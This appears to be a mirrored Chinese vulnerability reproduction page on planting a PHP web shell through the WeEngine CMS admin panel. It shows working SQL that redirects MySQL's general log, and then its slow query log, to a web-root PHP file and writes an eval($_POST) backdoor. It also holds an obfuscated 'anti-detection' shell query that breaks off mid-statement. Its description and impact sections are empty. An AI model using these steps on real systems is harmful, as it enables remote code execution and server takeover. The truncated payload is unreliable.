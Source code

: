 # 微擎 后台绕过禁用函数写shell

> 原文：[https://www.zhihuifly.com/t/topic/3365](https://www.zhihuifly.com/t/topic/3365)

# 微擎cms 后台绕过禁用函数写shell

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1.站点设置里面打开调试

![image](img/264695a6e5450ad1459f48cec68fbed7.png)

### 2.执行语句

select into被禁止

![image](img/d3a6ed8595f7e2441f9894fc0ae1b2f2.png)

### 3.利用日志文件写shell

```
show variables like '%general%';  #查看配置

set global general_log = on;  #开启general log模式

set global general_log_file = ‘/var/www/html/1.php’;   #设置日志目录为shell地址 `select ‘<?php eval($_POST[cmd]);?>’  #写入shell` 
```

![image](img/88bbf31db09c427ade53cc1e9a2cae0f.png)

### 4.SQL查询免杀shell的语句

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$ 
```

### 补充:来自土司@GuoKerSb的分享

在无法修改general_log_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow_query_log（慢查询日志，默认关闭）来写shell

```
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/1.php';
select '<?php eval($_POST[cmd]);?>' or sleep(11); 
```

## 四、参考链接

> https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html